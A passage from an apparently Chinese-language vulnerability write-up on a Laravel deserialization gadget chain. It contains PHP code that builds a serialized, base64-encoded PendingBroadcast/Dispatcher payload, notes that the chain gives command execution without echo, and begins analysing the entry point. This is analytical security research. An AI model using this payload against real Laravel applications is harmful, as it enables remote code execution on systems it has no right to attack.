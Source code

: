 ```
    }
}

namespace Illuminate\Broadcasting {

    use Illuminate\Contracts\Queue\ShouldQueue;

    class BroadcastEvent implements ShouldQueue
    {
        function __construct()
        {
        }
    }

    class PendingBroadcast
    {
        protected $events;
        protected $event;
        function __construct()
        {
            $this->event = new BroadcastEvent();
            $this->event->connection = "calc";
            $this->events = new \Illuminate\Bus\Dispatcher();
        }
    }
}

namespace {
    $pop = new \Illuminate\Broadcasting\PendingBroadcast();
    echo base64_encode(serialize($pop));
}
```

![image-20220627202510047](images/1.png)

注意这条链子是没有回显的，最后得到的是一个报错界面，但是确实可以命令执行

## 漏洞分析

这条链很短

入口点src/Illuminate/Broadcasting/PendingBroadcast.php，这在之前对laravel5.7的分析也用到过
